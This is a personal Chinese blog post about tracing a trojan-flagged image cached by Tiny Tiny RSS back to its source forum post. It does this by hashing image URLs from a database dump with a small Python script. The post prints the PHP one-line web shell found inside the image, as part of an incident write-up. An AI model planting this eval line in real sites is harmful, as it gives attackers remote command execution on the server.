 ```yaml
---
title: ttrss缓存图片与文章关联
date: 2020-03-15T23:34:01+08:00
categories: [琐碎]
---
```


# 背景

腾讯云发来通知说检测到服务器上有木马，通过路径得知这个木马文件是ttrss缓存的一张图片（开启rss源的媒体缓存选项后，ttrss会将图片缓存到服务器上）。图片是这个，

![](./trojan.png)

用文本编辑器打开后，会发现有这一段，经典的一句话木马语句，不过看这条语句在图片中间，不清楚是否真的能用。

```php
<?php eval($_POST("cmd"));?>
```

接下来就想找找这个图片是哪篇文章中的。

# 寻找

ttrss缓存的图片名称是个hash值，不能直接与文章关联起来。一个想法是将整个ttrss数据库dump出来，遍历所有文章的html，将hash值给找出来。

使用`pg_dump`命令dump ttrss的数据库，直接遍历查找，并未找到这张图片的hash值。

找了篇使用媒体缓存的文章仔细研究了下，发现文章html中的图片链接还是原始链接，但ttrss网站页面中看到的则是含有hash的路径，因此猜测ttrss是在渲染的时候在前端进行路径替换的。图片的名称是个hash，估计这个hash就是根据源链接计算出的hash值。找了个例子试了下，果然是对的。图片的hash值名称就是图片原始链接的sha1值。

举个例子说明下，`https://www.baidu.com/1234.png`是一篇文章中的一个图片链接，这篇文章所在的rss源设置了图片缓存，那么这张缓存下来的图片文件的名称是`https://www.baidu.com/1234.png`这个链接的sha1值，即`ed6e98935a2ada086ddc334166cb2eb1a86e3ee1`。

知道了这个原理，就可以修改程序了。代码如下，简单粗暴。

```python
import re
import hashlib
src = re.compile("src=\"(.+?)\"")

file = open("dump.sql", encoding="utf8")
for line in file:
    v = src.findall(line)
    for item in v:
        res = hashlib.sha1(item.encode()).hexdigest()
        if res == "46e4d516a9c3cc27ce4051869f63c22e93061ee3":
            print(item, line)
            break
file.close()
```

运行程序后，很快就找到了这个图片对应的文章，是某个论坛帖子中某个发言用户的头像。我也是服😢。

# 参考文章：

1. [Postgresql备份与还原命令pg_dump](https://blog.csdn.net/timo1160139211/article/details/78171272)。
